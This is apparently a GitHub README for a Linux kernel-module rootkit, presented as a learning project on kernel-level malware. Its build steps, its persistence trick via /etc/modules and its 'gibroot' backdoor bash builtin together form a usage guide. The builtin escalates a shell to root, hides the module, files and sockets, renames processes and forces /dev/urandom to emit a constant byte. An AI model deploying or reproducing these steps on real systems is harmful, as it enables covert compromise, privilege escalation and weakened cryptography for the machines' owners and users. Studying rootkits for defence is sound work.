 
# linux rootkit

this is a kernel module-based rootkit for linux that supports privelige escalation, compromising random number generation, file and directory hiding, and process injection.

this is a project to allow participants to better understand the inner workings of malware at the kernel level and to gain a deeper understanding of the constraints and possibilities of actions in the kernel space.


## Building and Installation

step 1: open up the Makefile and set KDIR to the path of the linux source tree. this should be configured identically to the target machine's kernel, and it must be configured with support for kprobes and ftrace(these are technically not necessary for privelige escalation or toggling the module's visibility, but we haven't incorporated a compile option for only those features yet).

```
KDIR = ~/learning/linux #replace with appropriate path
```
step 2: run the Makefile to compile the kernel module, and copy rootkit_module.ko over to the target machine
```
Make
```

step 3: copy over bash-4.3 and bdoor_common.h to the target machine, and compile Bash by running configure --with-bash-malloc=no and make (to have this work with different versions of Bash, go int bash-4.3/builtins, copy over gibroot.def to the other version's builtin folder, and change its Makefile.in to conform with https://stackoverflow.com/questions/10063417/how-do-i-add-an-internal-command-to-bash)
```
cd bash-4.3
./configure --with-bash-malloc=no
make
```

(extra) step 4: to make the rootkit persistant,  while root in the target machine, move rootkit_module.ko into the folder specified by /lib/modules/$(uname -r)/, and add the line "rootkit_module" to the bottom of /etc/modules. this make kmod load the module upon boot.
```
cp rootkit.ko /lib/modules/$(uname -r)/
echo "rootkit" >> /etc/modules
```


## Run
to load the module, while root run
```
insmod rootkit.ko
```
the module can also be removed with
```
rmmod rootkit.ko
```

now, as a regular user run the compiled bash executable. this will grant you access to the new gibroot builtin
```
cd bash-4.3
./bash
```

## Command Reference

to escalate shell privelige to root, use
```
gibroot root
```

to restore original shell priveliges, use

```
gibroot unroot
```
<br />

to hide the kernel module from userspace, use
```
gibroot hmod
```

to restore the kernel module's visibility, use
```
gibroot smod
```

<br />

to hide a file(s) or directory(s), use
```
gibroot hide [file(s)]
```
to unhide files, use
```
gibroot show [file(s)]
```

<br />

to look at what files are being hidden, use
```
cat /proc/hidden_files
```

<br />

to compromise /dev/urandom so it always writes 0x20, use
```
gibroot urand
```

<br />

to whitelist processes and users from file hiding, use
```
gibroot wadd [TYPE] [NAME/ID]
```
to remove an entry from the whitelist, use
```
gibroot wrem [TYPE] [NAME/ID]
```
to view the entries in the whitelist, use
```
cat /proc/whitelist
```
supported types for the whitelist are PROCNAME,PID,UID,GID
<br />

to change the name of your bash process to something else, use
```
gibroot newname [NAME]
```
names of up to 16 characters are allowed (max length of comm field in a task struct)

<br />

to hide open sockets from userspace, use
```
gibroot hport [TYPE] [STYPE] [PORT]
```
to unhide open sockets, use
```
gibroot sport [TYPE] [STYPE] [PORT]
```
to see the contents of the socket blacklist, use
```
cat /proc/sock_blist
```
supported types for the blacklist are LOCAL, SOURCE, and DEST

supported stypes for the blacklist are STREAM, DGRAM, RAW, RDM, SEQPACKET, DCCP, and PACKET

NOTE: I have experienced a (possibly erroneous) deadlock involving ehash_locks with port/socket hiding
